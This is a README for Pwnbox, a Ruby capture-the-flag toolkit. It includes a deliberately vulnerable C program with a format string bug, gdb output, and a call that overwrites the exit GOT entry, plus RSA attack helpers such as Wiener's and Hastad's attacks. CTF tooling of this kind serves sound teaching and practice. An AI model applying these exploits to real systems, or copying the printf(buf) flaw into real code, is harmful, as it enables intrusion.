 # Pwnbox

[![Build Status](https://travis-ci.org/jakkdu/pwnbox.svg?branch=master)](https://travis-ci.org/jakkdu/pwnbox)

Capture-The-Flag(CTF) toolkit

## Installation

Add this line to your application's Gemfile:

    gem 'pwnbox'

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install pwnbox

## Usage

### Find a libc.so

```ruby
libc = Pwnbox::Pwnable.find_libc(['system', 0x40100])
puts "Path : #{libc.path}"
puts "Read address : 0x%08X" % libc.find_address_by_name('read')
```

### Format string bug

An example is following.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char** argv)
{
    char buf[0x100];
    strncpy(buf, argv[1], 40);
    printf(buf);
    exit(-1);
}
```

Get exploit parameters using gdb.

```shell
=> 0x080484c7 <+74>:    call   0x8048330 <printf@plt>
(gdb) x/i 0x8048350
   0x8048350 <exit@plt>:        jmp    *0x804a014
(gdb) x/x $esp
0xbffff2f0:     0xbffff30c
```

exit GOT : 0x804a014, buffer : 0xbffff30c, esp : 0xbffff2e0

```ruby
Pwnbox::Pwnable.fsb(0x804a014, 0xbffff30c - 0xbffff2f0, [0xdeadbeef].pack('<I'))
```

### RSA
```ruby
# factorize if p, q is close
Pwnbox::RSA::factorize_if_close_prime(n)

# find non trivial factors
Pwnbox::RSA::find_nontrivial_factors([n1, n2, ...])

# Wiener's attack
Pwnbox::RSA::wiener(e, n)

# Weak Hastad's broadcast attack (Only for same plaintext)
Pwnbox::RSA::weak_hastad([c_1, c_2, ..., c_e], [n_1, n_2, ..., n_e])

# Franklin-Reiter related message attack for m2 = a * m1 + b
Pwnbox::RSA::franklin_reiter(a, b, c1, c2, n)
```
